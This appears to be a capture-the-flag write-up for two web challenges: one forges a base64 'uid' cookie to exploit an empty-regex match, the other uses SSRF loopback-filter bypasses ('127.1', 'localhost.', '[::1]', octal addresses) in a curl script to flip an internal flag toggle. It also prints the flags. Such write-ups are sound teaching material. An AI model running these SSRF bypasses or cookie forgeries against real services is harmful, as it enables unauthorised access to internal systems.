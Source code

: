 ```yaml
---
layout: default
title: Full Weak Engineer CTF post-mortem
---
```

## > regex-auth (Web)
from the website source, upon logging in, the website sets a `uid` and `username` cookie, where `uid` is the base64 encoded user id string.
```python
@app.route("/", methods=["GET", "POST"])
def login():
    if request.method == "POST":
        username = request.form.get("username")

        if username in USERS:
            user_id = f"user_{random.randint(10000, 99999)}"
        else:
            user_id = f"guest_{random.randint(10000, 99999)}"

        uid = base64.b64encode(user_id.encode()).decode()

        resp = make_response(redirect("/dashboard"))
        resp.set_cookie("username", username)
        resp.set_cookie("uid", uid)
        return resp

    return render_template_string(login_page)
```

the user's role is set to the flag and rendered in the dashboard template upon the condition that regex matches user_id to an empty string. the vulnerability lies here, that an empty regex will match everything, because 'an empty string' exists in every string.

```python
@app.route("/dashboard")
def dashboard():
    username = request.cookies.get("username")
    uid = request.cookies.get("uid")

    if not username or not uid:
        return redirect("/")

    try:
        user_id = base64.b64decode(uid).decode()
    except Exception:
        return redirect("/")

    if re.match(r"user.*", user_id, re.IGNORECASE):
        role = "USER"
    elif re.match(r"guest.*", user_id, re.IGNORECASE):
        role = "GUEST"
    elif re.match(r"", user_id, re.IGNORECASE): 
        role = f"{FLAG}"
    else:
        role = "OTHER"

    return render_template_string(dashboard_page, user=username, uid=user_id, role=role)
```

therefore to get the flag, we encode literally any base64 string that doesn't start with `user` or `guest`

![base64](/images/fwe_images/base64.png)

log in with any username, ctrl+shift+i to inspect, go to application and set `uid` to your new string

![cookie](/images/fwe_images/cookie.png)

refresh and get the flag

![flag](/images/fwe_images/flag.png)

flag: `fwectf{emp7y_regex_m47che5_every7h1ng}`


## > AED (Web)

When you visit the `/` endpoint, it resets your session index and returns to the html page
```ts
app.get("/", c => {
  getSession(c.get("sid")).idx = -1
  return c.html(PAGE)
})
```

When you visit the `/heartbeat` endpoint, if the variable `pwned` is false, it spits out a random character. However, if it is true, it spits out a part of the flag.
```ts
app.get("/heartbeat", c => {
  const s = getSession(c.get("sid"))
  if (!pwned) {
    const char = DUMMY[Math.floor(Math.random() * DUMMY.length)]
    return c.json({ pwned: false, char })
  }
  if (s.idx === -1) s.idx = 0
  const pos = s.idx
  const char = FLAG[pos]
  s.idx = (s.idx + 1) % FLAG_LEN
  return c.json({ pwned: true, char, pos, len: FLAG_LEN })
})
```

the endpoint `/fetch/` lets you fetch any url that you control.
```ts
app.get("/fetch", async c => {
  const raw = c.req.query("url")
  if (!raw) return c.text("missing url", 400)
  let u: URL
  try {
    u = new URL(raw)
  } catch {
    return c.text("bad url", 400)
  }
  if (!isAllowedURL(u)) return c.text("forbidden", 403)
  const r = await fetch(u.toString(), { redirect: "manual" }).catch(() => null)
  if (!r) return c.text("upstream error", 502)
  if (r.status >= 300 && r.status < 400) return c.text("redirect blocked", 403)
  return c.text(await r.text())
})
```

the blocklist check in `isAllowedURL` is weak.
it only checks the scheme to be `http` and only blocks three host-names:
```ts
const isAllowedURL = (u: URL) =>
  u.protocol === "http:" &&
  !["localhost", "0.0.0.0", "127.0.0.1"].includes(u.hostname)
```

this can be exploited by providing hostnames like `localhost.`, `127.1`, which can bypass the filter. this vulnerability was made possible because they didn't compare the IP, they only compared the string.

the admin `app2` is run on port `4000`, and includes a `toggle` function that we can pwn to trigger the flag to print.

```ts
app2.get("/toggle", c => {
  pwned = true
  sessions.forEach(s => (s.idx = -1))
  return c.text("OK")
})
```

we can use the `/fetch` endpoint to toggle the pwned mode
`/fetch?url=<filteredpayload>/toggle`

using this bash script
```bash
BASE="http://33ccdbc5ef884fe7821c6b91a3eb963d0.chal3.fwectf.com:8004"

# 1) Save sid cookie
curl -s -c cookiejar.txt "$BASE/"

# 2) Try SSRF toggle variants (stop when one returns OK)
curl -s "$BASE/fetch" --get --data-urlencode "url=http://127.1:4000/toggle"
curl -s "$BASE/fetch" --get --data-urlencode "url=http://127.0.0.1:4000/toggle"
curl -s "$BASE/fetch" --get --data-urlencode "url=http://localhost.:4000/toggle"
curl -s "$BASE/fetch" --get --data-urlencode "url=http://[::1]:4000/toggle"
curl -s "$BASE/fetch" --get --data-urlencode "url=http://[::ffff:127.0.0.1]:4000/toggle"
curl -s "$BASE/fetch" --get --data-urlencode "url=http://0177.0.0.1:4000/toggle"

# 3) If one returns OK, poll heartbeat with same cookiejar
for i in $(seq 1 300); do
  curl -s -b cookiejar.txt "$BASE/heartbeat"
  echo
  sleep 0.1
done
```

revisit the webpage, and the flag will show itself:
![flag](/images/fwe_images/pwned.png)

flag: `fwectf{7h3_fu11_w34k_h34r7_l1v3d_4g41n}`

